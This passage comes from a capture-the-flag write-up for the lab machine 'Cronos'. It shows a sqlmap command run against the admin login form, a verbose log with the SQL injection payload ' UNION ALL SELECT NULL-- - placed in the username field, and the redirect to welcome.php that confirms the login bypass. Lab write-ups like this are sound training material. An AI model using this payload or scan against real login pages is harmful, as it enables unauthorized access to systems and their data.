 The login form on admin.cronos.htb does not seem to accept default login credentials such as admin:admin etc. So let's try some old school sql injection with sqlmap

```bash
└─$ sqlmap -u "http://admin.cronos.htb/" --forms -v 6 --output-dir="./sqlmap_results"
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.11#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 07:43:21 /2025-03-01/

...

[07:44:28] [PAYLOAD] ' UNION ALL SELECT NULL-- -
[07:44:28] [TRAFFIC OUT] HTTP request [#54]:
POST / HTTP/1.1
Cache-Control: no-cache
User-Agent: sqlmap/1.8.11#stable (https://sqlmap.org)
Cookie: PHPSESSID=tmupu802knvruc41e9u451li47
Host: admin.cronos.htb
Accept: */*
Accept-Encoding: gzip,deflate
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Content-length: 62
Connection: close

username=%27%20UNION%20ALL%20SELECT%20NULL--%20-&password=test

[07:44:28] [TRAFFIC IN] HTTP redirect [#54] (302 Found):
Date: Sat, 01 Mar 2025 12:44:27 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: welcome.php
Content-length: 1547
Connection: close
Content-type: text/html; charset=UTF-8

...

```

Great, this payload redirects us to the welcome page. Let's use burp to repeat this process via browser.
